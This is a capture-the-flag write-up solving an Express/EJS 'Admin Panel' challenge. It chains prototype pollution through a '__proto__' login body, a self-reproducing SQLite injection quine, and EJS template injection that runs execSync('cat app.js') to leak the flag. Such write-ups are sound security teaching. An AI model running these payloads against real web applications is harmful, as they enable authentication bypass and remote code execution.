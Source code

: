 
# Admin Panel

We are given an express app, with the flag inside the app.js file, so to solve it we need a LFI or RCE.
There are two routes `/upload` and `/admin` which allows us to upload custom `ejs` templates and render them respectively.
If we could do that, we could use the templating language for both RCE and LFI.

But to do that we need to become admin and therefore we need two things 

1. `req.session.isAdmin === true`
2. `req.session.user === 'admin`

Both are being set in `/login` route

```
if(typeof tmp.pw !== "undefined"){
            tmp.pw = tmp.pw.replace(/\\/gi,'').replace(/\'/gi,'').replace(/-/gi,'').replace(/#/gi,'');
}
        
```
Certain characters are removed in the password.

```
for(var key in tmp){
            user[key] = tmp[key];
        }
```
An object copy is made. This is an important part it will allow us to bypass certain restrictions.

```
if(req.connection.remoteAddress !== '::ffff:127.0.0.1' && tmp.id === 'admin' || typeof user.id === "undefined"){
            user.id = 'guest';
        }
req.session.user = user.id;
```

**The req.session.user** is directly set from the user input here as long as tmp.id !=='admin' when accessing the route remotely.

```
row = db.prepare(`select pw from users where id='admin' and pw='${user.pw}'`).get();
            if(typeof row !== "undefined"){
                console.log(row.pw);
                req.session.isAdmin = (row.pw === user.pw);
                console.log(req.session.isAdmin,req.session.user==='admin');
            }
```
The other admin condition is set here.

To set `req.session.isAdmin`, our password must be the same as the password returned from the sql login query.

We can clearly see **SQL injection** here but to break out of the `'` we need single quotes, which are restricted in the first code block above.


## Prototype pollution

To bypass this restriction and set req.session.user to `admin` we can use prototype pollution.
Express request parsing allows you to construct a customized object as per as you need.


```
{
	"__proto__":{"id":"admin", "pw": " '#~` "}
}
```

Sending this as the body in the POST request will do the following
1. tmp.pw will be undefined
2. When you copy the object properties, now user.pw will get our proto value
3. Similarly the tmp.id === 'admin' check will not return true as tmp.id is undefined, but user.id is not undefined


So now we have gotten **1/2 checks passed** to become an admin.

For the next one, we need to clear this condition `req.session.isAdmin = (row.pw === user.pw);`
To clear this our user.pw which will contain our sql injection payload should match the result of the sql query.

## SQL Injection

For this I thought I'll extract the admin's password and then just login through his password.

Blind injection techniques wouldn't work, there is no feedback. Sqlite does not have time related functions for time-based injection. 


But errors were being shown so I started looking for error payloads. While you can't extract data from error messages, you can use it to get feedback for blind extraction.
I found two error functions `json('x')` and `abs(-9223372036854775808)` to generate errors explicitly.

```
{
	"_proto_":{"pw":"' OR 1=1 and json('x')=id--","id":"admin"}
}
```
If the condition `1=1` is true our error will fire, otherwise no error.

But then I discovered that the users table is empty :/ So you can't extract a password, leaving with you only one option.

## Self Generating SQL query

The result of our SQL query should generate the entire injection payload. WTF!

To do that you obviously need some kind of repeat function. Sqlite doesn't have a straightforward function.
 
However you can use this ` replace(hex(zeroblob(X)),hex(zeroblob(1)),'string')` which will repeat 'string' X times.


```
Payload  :' Union select replace(hex(zeroblob(2)),hex(zeroblob(1)), char(39)||' Union select replace(hex(zeroblob(2)),hex(zeroblob(1)), char(39)||')--
Generates:' Union select replace(hex(zeroblob(2)),hex(zeroblob(1)), char(39)||' Union select replace(hex(zeroblob(2)),hex(zeroblob(1)), char(39)||
```

Also to escape single quotes I used `char(39)` and `||` to concat strings.

As you can see the generated string is just a double copy. Now to cleanly generate the last 4 characters as well

```
Payload  :' Union select replace(hex(zeroblob(2)),hex(zeroblob(1)), char(39)||' Union select replace(hex(zeroblob(2)),hex(zeroblob(1)), char(39)||')||replace(hex(zeroblob(3)),hex(zeroblob(1)),char(39)||')||replace(hex(zeroblob(3)),hex(zeroblob(1)),char(39)||')||replace(hex(zeroblob(3)),hex(zeroblob(1)),char(39)||')--')--')--
Generates:' Union select replace(hex(zeroblob(2)),hex(zeroblob(1)), char(39)||' Union select replace(hex(zeroblob(2)),hex(zeroblob(1)), char(39)||')||replace(hex(zeroblob(3)),hex(zeroblob(1)),char(39)||')||replace(hex(zeroblob(3)),hex(zeroblob(1)),char(39)||')||replace(hex(zeroblob(3)),hex(zeroblob(1)),char(39)||')--')--')--
```

Now with this we can finally become admin

```
{
	"__proto__":{"pw":"' Union select replace(hex(zeroblob(2)),hex(zeroblob(1)), char(39)||' Union select replace(hex(zeroblob(2)),hex(zeroblob(1)), char(39)||')||replace(hex(zeroblob(3)),hex(zeroblob(1)),char(39)||')||replace(hex(zeroblob(3)),hex(zeroblob(1)),char(39)||')||replace(hex(zeroblob(3)),hex(zeroblob(1)),char(39)||')--')--')--","id":"admin"}
}

```

Now we are only left with template injection which should be very easy.

## Template injection

We upload this payload

```
  <%- global.process.mainModule.require('child_process').execSync('cat app.js') %>

```
And use the `/admin?test=` route to render it.
This gets us the flag.

ASIS{t1me_t0_study_pr0t0type_p0llu7ion_4nd_ejs!}


Follow me: https://twitter.com/abcdsh_/



